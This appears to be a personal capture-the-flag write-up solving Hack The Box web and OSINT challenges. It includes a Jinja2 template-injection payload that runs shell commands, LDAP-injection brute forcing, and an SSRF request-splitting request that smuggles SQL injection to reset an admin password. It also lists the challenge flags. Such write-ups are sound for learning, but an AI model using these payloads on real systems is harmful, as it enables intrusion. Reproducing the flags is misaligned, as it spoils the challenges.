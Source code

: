 # Challenges

## Web

### Emdee five for life 

[Emdee five for life](https://app.hackthebox.eu/challenges/Emdee-five-for-life)

Can you encrypt fast enough? Surely we need scripting here. A very simply python script capturing the webpage input, hashing the thing, and posting it back will give the flag. 

Flag: HTB{N1c3_ScrIpt1nG_B0i!}

### Templated

[Templated](https://app.hackthebox.eu/challenges/Templated)

Can you exploit this simple mistake? 

At first glance, one would think this supports a simple GET, so what's the big deal about this. After all, there are no apparent ways to send input to the server. The source code is simple two line HTML. However, if you look at `host/xyz`, you shall see the value displayed on the 404 page. A very simple misconfiguration, but deadly. Now on to craft a SSTI payload. SSTI can be confirmed through `http://..../{{3*3}}` and getting back a 9.

```s
{{ config.items() }}
{{ config.from_object('os') }}
{{"".__class__.__mro__[1].__subclasses__()[414].__init__.__globals__["__builtins__"]["__import__"]("os").popen("cat flag.txt").read()}}
```
### Phonebook

[Phonebook](https://app.hackthebox.eu/challenges/Phonebook)

Who is lucky enough to be included in the phonebook?

So the actual page has a login system which did not work for SQLi. Viewing the source reveals certain HTML resources from a weird directory `964430b4cdd199af19b986eaf2193b21f32542d0` which when opened gives the search functionality. Reading the source code gives some jquery that seems like making a POST to `/search` and getting an access denied everytime.

```s
function search(form) {
      var searchObject = new Object();
      searchObject.term = $("#searchfield").val();
      $.ajax({
        type: "POST",
        url: "/search",
        data: JSON.stringify(searchObject),
        success: success,
        dataType: "json",
    });
    };
```
A simple asterisk (*) works as the username and password (typical LDAP injection) and leads to the same page as before. Now we have a session cookie attached which wasn't there before. So now POST to `/search` work perfectly and we get information back on `resse`. The search functionality with `term` is matching the presence of the value of the term in the mail. After a while, it is realised that this is not our usual json.stringify problem. It is rather an LDAP injection wherein the password can be bruteforced using normal [LDAP injection](https://www.netsparker.com/blog/web-security/ldap-injection-how-to-prevent/). Basically, a brute force attack on user `reese` and password `HTB{@*` where information is put into @ leads to recovery of the flag. Knowing that password of reese is the flag we are looking for is more of a challenge specific thing. Add LDAP to the list of things understood. In hindsight, the structure of the challenge: information of users being stored in a directory and offering search capability was a giveaway for LDAP services and trying to inject LDAP.

Flag: HTB{d1rectory_h4xx0r_is_k00l}

### Weather App

A pit of eternal darkness, a mindless journey of abeyance, this feels like a never-ending dream. I think I'm hallucinating with the memories of my past life, it's a reflection of how thought I would have turned out if I had tried enough. A weatherman, I said! Someone my community would look up to, someone who is to be respected. I guess this is my way of telling you that I've been waiting for someone to come and save me. This weather application is notorious for trapping the souls of ambitious weathermen like me. Please defeat the evil bruxa that's operating this website and set me free!

- Registration on `/register` is only working through localhost. This can be seen through `routes/index.js` which is giving a 401 for non-localhost sources, as well as in database.js wherein there's a comment `// TODO: add parameterization and roll public` which suggests the registration has not yet rolled public.

- `admin` password is randomly generated, and logging as admin on `login` shall give the flag.  

- This challenge comes with docker files, so set the system up on localhost and test it out.

- For the `POST /register` thing, we have the following `if (req.socket.remoteAddress.replace(/^.*:/, '') != '127.0.0.1')`. From this [link](https://stackoverflow.com/questions/31100703/stripping-ffff-prefix-from-request-connection-remoteaddress-nodejs), it is clear that we are stripping ::ffff: from the remote address. From the checks done on localhost, the defaults are IPv4. The way to bypass this be SSRF wherein we fool the server into believing the request for registration came from the server itself. This [link](https://www.rfk.id.au/blog/entry/security-bugs-ssrf-via-request-splitting/) speaks of a security bug in unicode unwrapping in http.get() for node 8 or less, exactly the thing used in the application at `/api/weather`. Through a simple `console.log(http.get(url).output);` in HTTPHelper.js, monitoring of the request can be done.

- Observation made: HTTP control characters are URL encoded. 

```s
POST /api/weather HTTP/1.1
Host: ip:port
User-Agent: cGFzcw==
Content-Type: application/x-www-form-urlencoded
Content-Length: 462
Connection: close

endpoint=127.0.0.1:80&city=ĠHTTP/1.1ĊHost:Ġ127.0.0.1:80ĊConnection:Ġkeep-aliveĊĊĊPOSTĠ/registerĠHTTP/1.1ĊHost:Ġ127.0.0.1:80ĊContent-Type:Ġapplication/x-www-form-urlencodedĊUser-Agent:ĠMozilla/5.0Ġ(X11;ĠLinuxĠx86_64;Ġrv:85.0)ĠGecko/20100101ĠFirefox/85.0ĊConnection:Ġkeep-aliveĊContent-Length:Ġ110ĊĊusername=adminĦpassword=admin%27)%20ON%20CONFLICT(username)%20DO%20UPDATE%20SET%20password=%27pass%27%20--+-ĊĊGETĠ/?&country=register
```
**Some characters haven't been encoded properly**

Flag: HTB{w3lc0m3_t0_th3_p1p3_dr34m}

## OSINT

The idea is to engage with data in publicy available domains to get a sense of the target in general.

### Easy Phish

[Easy Phish](https://app.hackthebox.eu/challenges/Easy-Phish)

```sh
Customers of secure-startup.com have been recieving some very convincing phishing emails, 
can you figure out why?
```
- The host is no longer accessible from public domain. This may mean it was moved or shut down.

- Internet archives, wayback machine has entries related ot his. It was indexed on Sept. 22, 2020 and has stuff like text/html and image/gif. Not that useful.

- `dnsrecon -d secure-startup.com` returns a TXT DNS record of the form

```s
TXT secure-startup.com v=spf1 a mx ?all - HTB{RIP_SPF_Always_2nd
```
A TXT resource record allows to match arbitrary text with a domain. The part within { is half the flag. From `v=spf1 a mx ?all`, this looks like a SFP (Sender policy framework) record, which is related to email authentication (the problem the challenge asks to solve in the first place).

- Using `dig secure-startup.com -t txt`

```s
;; ANSWER SECTION:
secure-startup.com.     445     IN      TXT     "v=spf1 a mx ?all - HTB{RIP_SPF_Always_2nd"
```
- The mails being recieved by the recipients are spoofs. Thereby, they may have failed the DMARC test. Thereby, it is essential to query those records too. Navigate to `mxtoolbox.com/` and query DMARC to see reporting and conformance of emails.

```s
v=DMARC1;p=none;_F1ddl3_2_DMARC}
```

Final flag: HTB{RIP_SPF_Always_2nd_F1ddl3_2_DMARC}

Better way

```s
dig TXT linuxincluded.com
dig TXT dkim._domainkey.linuxincluded.com
dig TXT _dmarc. linuxincluded.com
```
### Money Flowz

[Money Flowz](https://app.hackthebox.eu/challenges/Money-Flowz)


```sh
Frank Vitalik is a hustler, can you figure out where the money flows?
```
- Searching on the fellow, there comes a [twitter profile](https://twitter.com/frankvitalik). I am not sure if the person is the same that I am looking for. But the dates of the tweets are around the same time the challenge was released (10 months at the time of the writing). Then there's two reddit posts: [post1](https://www.reddit.com/user/frankvitalik/comments/goxkz7/whats_the_cleverest_scam_youve_seen_in_crypto/) and [post2](https://www.reddit.com/user/frankvitalik/comments/goxefp/incredible_scam_giveaway_you_can_get_free_coins/). This is exactly what I am looking for: this person is the HTB crypto enthusiast.

- Post 2 has a link for having free fake coins [Freecoinz](https://steemit.com/htb/@freecoinz/freecoinz)

```sh
Super Ethereum SCAM Giveaway
(?)Deposit 10X ETH to this address and get 20X ETH back!!(?)
0x1b3247Cd0A59ac8B37A922804D150556dB837699
you can get free coinz!
```
and a comment by the poster themselves:

```sh
Wow! I can't believe they are giving free coins into the ropsten net!
```
- Post 1 however takes one into the details of a crypto scam wherein someone leaked their private key in their address and honeypotted the users into trying to hack their ethereum. There's a bot watching the wallet, and as soon as Ethers come in, the bot takes them away.

Scammer [etherscan.io page](https://etherscan.io/address/0xb7605ddc0327406a7ac225b9de87865e22ac5927)

Details of the scam on [bitcoin forum](https://bitcointalk.org/index.php?topic=2237480.0)
